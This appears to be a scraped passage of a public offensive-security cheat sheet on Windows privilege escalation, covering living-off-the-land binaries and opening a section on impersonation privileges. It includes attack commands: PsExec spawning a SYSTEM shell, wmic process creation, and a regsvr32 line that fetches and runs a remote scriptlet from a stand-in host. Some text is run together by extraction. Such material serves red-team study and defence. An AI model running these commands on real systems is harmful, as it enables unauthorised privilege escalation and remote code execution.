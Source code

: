 PsExec.exe  -i -s cmd.exe

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='73'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2321' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---living-off-the-land-binaries-and-scripts)EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra "unexpected" functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
- Have functionality that would be useful to an APT or red team

wmic.exe  process call create calc

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dllMicrosoft.Workflow.Compiler.exe tests.xml results.xml

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='74'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2341' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)EoP - Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.
